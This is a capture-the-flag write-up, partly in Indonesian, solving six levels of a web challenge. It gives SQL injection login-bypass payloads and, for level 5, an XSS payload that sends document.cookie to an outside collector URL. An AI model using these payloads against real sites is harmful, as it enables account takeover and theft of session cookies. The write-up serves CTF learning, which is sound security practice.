 ```yaml
---
private: 'false'
modified: 'Sat Feb 11 2017 07:00:00 GMT+0700 (WIB)'
layout: post
featured: false
published: true
comments: true
title: Writeup BitcointCTF
tags: sqlinjection
mathjax: false
imagefeature: /images/sqlinjection.jpg
description: Writeup BitcointCTF Challenge
category: Web Exploitation
chart: null
---
```



## Bitcoin CTF ($)

FIRST LEVEL: http://188.166.248.215/ 

prize: 1BtCctfV3MFXQ9zfLq8BkK53cpGdmkA2WL 

what: capture the flag \(CTF\) 

when: 1490349600 irc: \#bitcoinctf on freenode questions: @bitcoinctf or &lt;bitcoinctf \[at\] gmail.com&gt;



### Level 1

Soal : [http://188.166.248.215/](http://188.166.248.215/)

Injection : `1 or (1=1)#`

![](/images/level1-bitcoinctf.png)

### Level 2

Soal : [http://188.166.248.215/ce4dd79d-971b-40d3-a4e6-2041da6bcc64/](http://188.166.248.215/ce4dd79d-971b-40d3-a4e6-2041da6bcc64/)

Injection : `12' or '1'='1`

![](/images/level2-bitcoinctf.png)

### Level 3

Soal : [http://188.166.248.215/85998adb-2109-45d2-aec9-6e9d995e6d47/](http://188.166.248.215/85998adb-2109-45d2-aec9-6e9d995e6d47/)

Injection : `a' or 1=1#`

![](/images/level3-bitcoinctf.png)

### Level 4

Soal : [http://188.166.248.215/f3af878d-d7cd-47c0-b98e-074cf82d30d6/](http://188.166.248.215/f3af878d-d7cd-47c0-b98e-074cf82d30d6/)

Injection : `0 -- ' or '1'='1' -- " or "1"="1`

![](/images/level4-bitcoinctf.png)

### Level 5

Soal : [http://139.59.127.138/8eb7a8a1-2e0d-4ff7-a91b-8686ff229c28/](http://139.59.127.138/8eb7a8a1-2e0d-4ff7-a91b-8686ff229c28/)

Injection : `<img src=x onerror=this.src='http://requestb.in/191nnlq1?c='+document.cookie>`

![](/images/level5-bitcoinctf.png)

![](/images/level5-bitcoinctf-2.png)



### Level 6

Soal : [http://139.59.127.139/dbd41354-9645-4e87-bbb8-27f5db622a67/](http://139.59.127.139/dbd41354-9645-4e87-bbb8-27f5db622a67/)

  
setelah beberapa kali melakukan injeksi basic seperti `' OR 1=1#` pada kolom username dan password nampaknya tidak berjalan kemudian saya menebak query di backendnya seperti ini : `SELECT * from users where username='$user' and pasword = '$pass'`  


ketika kita coba kirim payload : `aaa\ & password= xxx `

query sebenarnya :` SELECT * from users where username='aaa\' and pasword = ' xxx'`



ketika kita coba kirim payload : `username = aaa\ & password= OR 1=1#`

query sebenarnya : `SELECT * from users where username='aaa\' and pasword = ' OR 1=1#'`

![](/images/level6-bitcoinctf.png)






